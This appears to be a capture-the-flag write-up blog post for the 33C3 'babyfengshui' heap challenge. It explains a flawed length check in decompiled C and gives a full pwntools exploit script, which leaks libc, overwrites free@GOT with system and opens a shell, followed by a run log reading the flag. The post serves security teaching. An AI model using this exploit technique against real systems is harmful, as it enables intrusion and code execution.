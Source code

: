 ```yaml
---
layout: post
title: 33C3 - BabyFengShui
published: True
---
```


{% highlight bash %}
babyfengshui: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=cecdaee24200fe5bbd3d34b30404961ca49067c6, stripped
{% endhighlight %}

{%highlight bash %}
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
{% endhighlight %}

## Vulnerability ##

Each time a user is added, two chunks are `malloc()`'d for the user, as we can see in the function `add_user()`.
{% highlight C%}
void *__cdecl add_user(size_t description_size)
{
  int v1; // ST2C_4@1
  void *description; // ST24_4@1
  void *user; // ST28_4@1
  void *result; // eax@1
  int v5; // ecx@1

  v1 = *MK_FP(__GS__, 20);
  description = malloc(description_size);
  memset(description, 0, description_size);
  user = malloc(0x80u);
  memset(user, 0, 0x80u);
  *(_DWORD *)user = description;
  *(&user_array + (unsigned __int8)num_users) = user;
  printf("name: ");
  write_chunk((char *)*(&user_array + (unsigned __int8)num_users++) + 4, 124);
  update_description(num_users - 1);
  result = user;
  v5 = *MK_FP(__GS__, 20) ^ v1;
  return result;
}
{% endhighlight %}

In the heap, this looks something like the following. 

![](../img/babyfengshui_1.png)

**Notice that the first dword of each user's name chunk is a pointer to the user's description chunk.**

Additionally, when we update a user's description, the program checks to verify that the description's length does not cause it to overflow from the user's description chunk into the user's name chunk. 

If it does, the program outputs "my l33t defenses cannot be fooled, cya!" and exits. Otherwise, it calls `fgets()` and copies a user-specified number of bytes into the chunk's description chunk. 

{% highlight C %}
int __cdecl update_description(unsigned __int8 index)
{
  char v2; // [sp+17h] [bp-11h]@3
  int v3; // [sp+18h] [bp-10h]@3
  int v4; // [sp+1Ch] [bp-Ch]@1

  v4 = *MK_FP(__GS__, 20);
  if ( index < (unsigned __int8)num_users && *(&user_array + index) )
  {
    v3 = 0;
    printf("text length: ");
    __isoc99_scanf("%u%c", &v3, &v2);
    if ( v3 + *(_DWORD *)*(&user_array + index) >= (unsigned int)((char *)*(&user_array + index) - 4) )
    {
      puts("my l33t defenses cannot be fooled, cya!");
      exit(1);
    }
    printf("text: ");
    write_chunk(*(char **)*(&user_array + index), v3 + 1);
  }
  return *MK_FP(__GS__, 20) ^ v4;
}
{% endhighlight %}

{% highlight C %}
int __cdecl write_chunk(char *dest, int num_bytes)
{
  char *v3; // [sp+18h] [bp-10h]@1
  int v4; // [sp+1Ch] [bp-Ch]@1

  v4 = *MK_FP(__GS__, 20);
  fgets(dest, num_bytes, stdin);
  v3 = strchr(dest, 0xA);
  if ( v3 )
    *v3 = 0;
  return *MK_FP(__GS__, 20) ^ v4;
}
{% endhighlight %}

**This check is flawed.** 

This check only works if a user's description and name chunks are contiguous to each other in the heap.

But, what if we were able to allocate a user's chunks in a way such that a user's description and name chunks were far away from each other?

![](../img/babyfengshui_2.png)

That would allow us to overwrite anything in between the user's description chunk and name chunk, including other valid heap chunks, introducing a heap overflow vulnerability.

We can actually "massage" the heap into this state by using the following flow.

1. allocate user A
	* small description (size 0)
	* normal name (size 0x80)
1. allocate user B
	* small description (size 0)
	* normal name (size 0x80)
1. free user A
1. allocate user C
	* **large description (size 0x20)**
	* normal name (size 0x80)

The reason this flow will force user C's description chunk and name chunk to be separated is because user C's description chunk is allocated first.
Once it is reallocated from user A's old description chunk, there will not be enough space left to reallocate user A's name chunk to service chunk C's name chunk request, since chunk C's description is bigger than chunk A's. 

**We can then leverage this heap overflow vulnerability to overwrite chunk B's *pointer-to-description-chunk* pointer to give us both arbitrary read and arbitrary write privileges!** 

We get an arbitrary read because we can print out a user's description and the process for that involves first dereferencing the *pointer-to-description-chunk* pointer and printing the data stored at that memory address.

Similarly, we can get an arbitrary write when we update a user's description because the process for that involves first dereferencing the *pointer-to-description-chunk* pointer and writing user controlled data to the dereferenced address.

Using the two exploit primitives, we put together the following plan.

1. massage the heap
	1. *see aforementioned flow* 
1. libc/GOT leak
	1. overwrite pointer in chunkB_name w/ __libc_start_main@GOT
	1. print chunkB to get __libc_start_main@libc
	1. calculate system@libc
1. GOT overwrite 
	1. overwrite pointer in chunkB_name w/free@GOT
	1. edit description of chunkB
	1. input system@libc
1. write "/bin/sh\0" to heap
	1. allocate another chunk w/any description size
	1. set description to "/bin/sh\0"
1. call system("/bin/sh\0") 
	1. free chunk index 3

Putting everything together, we are able to get a shell using the following exploit.

## Exploit
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def add(desc_size, name, text_len, text):
    r.sendline("0")
    r.recvuntil(": ")
    r.sendline(str(desc_size))
    r.recvuntil(": ")
    r.sendline(name)
    r.recvuntil(": ")
    r.sendline(str(text_len))
    r.recvuntil(": ")
    r.sendline(text)
    r.recvuntil("Action: ")

def delete(index):
    r.sendline("1")
    r.recvuntil(": ")
    r.sendline(str(index))
    r.recvuntil("Action: ")

def display(index, parse = False):
    r.sendline("2")
    r.recvuntil(": ")
    r.sendline(str(index))
    if parse == False:
        r.recvuntil("Action: ")   
    else:
        return r.recvuntil("Action: ")

def update(index, text_len, text):
    r.sendline("3")
    r.recvuntil(": ")
    r.sendline(str(index))
    r.recvuntil(": ")
    r.sendline(str(text_len))
    r.recvuntil(": ")
    r.sendline(text)
    r.recvuntil("Action: ")
    
def exploit(r):
    r.recvuntil("Action: ")
    
    ### ALLOCATE 2 CHUNKS ###
    add(0,"AAAA",11,"BBB")
    add(0,"AAAA",11,"BBB")
    
    ### DELETE CHUNK A ###
    delete(0)

    ### REALLOCATE CHUNK A ###
    user_array =  0x804b080
    payload  = "A"*152
    payload += p32(user_array+4) #user_array[1] # overwrites pointer to chunk_B's desc
    add(32,"AAAA",160,payload)    

    ### HEAP LEAK ###
    chunk_b = u32(display(1, True).split(": ")[2][:4])
    log.success("Heap chunk leaked: " + hex(chunk_b))
   
    ### CHANGE DESCRIPTION  ###
    libc_start_main =  0x804b030
    payload  = "A"*152
    payload +=  p32(libc_start_main)# user_array[1] # overwrites pointer to chunk_B's desc
    update(2, 160, payload)
    
    ### LIBC LEAK ###
    libc_start_main = u32(display(1, True).split(": ")[2][:4])
    log.success("__libc_start_main@GOT leaked: " + hex(libc_start_main))
    libc_base = libc_start_main-0x19970    
    log.success("libc base leaked: " + hex(libc_base))
    system = libc_base+0x3e3e0
    log.success("system@libc leaked: " + hex(system))
    
    ### CHANGE DESCRIPTION  ###
    free_got = 0x804b010
    payload  = "A"*152
    payload +=  p32(free_got)# user_array[1] # overwrites pointer to chunk_B's desc
    update(2, 160, payload)

    '''
    gdb-peda$ x/32xw 0x804b00c
    0x804b00c:      0x080484e6      0x080484f6      0x08048506      0x08048516
    0x804b01c:      0x08048526      0x08048536      0x08048546      0x08048556
    0x804b02c:      0x08048566      0xf7619990      0x08048586      0x08048596
    '''

    ### OVERWRITE free@GOT w/ system@libc ###
    fgets_plt=0x8048506 # bcus of trailing null byte, need to restore fgets@GOT or it will crash!
    update(1, 8, p32(system)+p32(fgets_plt)) # let null byte corrupt alarm()
    
    ### ADD CHUNK WITH "/bin/sh\0" name ###
    add(123,"/bin/sh\0",11,"/bin/sh\0")
    
    ### FREE CHUNK INDEX 3 ### 
    r.sendline("1")
    r.recvuntil(": ")
    r.sendline("3") 

    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        #r = process(['/home/rh0gue/Documents/33c3/babyfengshui'], env={"LD_PRELOAD":"./libc-2.19.so"})
        r = process(['/home/rh0gue/Documents/33c3/babyfengshui'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{%endhighlight %}
{% highlight bash%}
rh0gue@vexillum:~/Documents/33c3$ python solve.py 78.46.224.83 1456
[*] For remote: solve.py HOST PORT
[+] Opening connection to 78.46.224.83 on port 1456: Done
[+] Heap chunk leaked: 0x80f70b0
[+] __libc_start_main@GOT leaked: 0xf75fe970
[+] libc base leaked: 0xf75e5000
[+] system@libc leaked: 0xf76233e0
[*] Switching to interactive mode
$ id
uid=1000(fengshui) gid=1000(fengshui) groups=1000(fengshui)
$ ls
babyfengshui
flag.txt
$ cat flag.txt
33C3_h34p_3xp3rts_c4n_gr00m_4nd_f3ng_shu1
$  
{% endhighlight %}
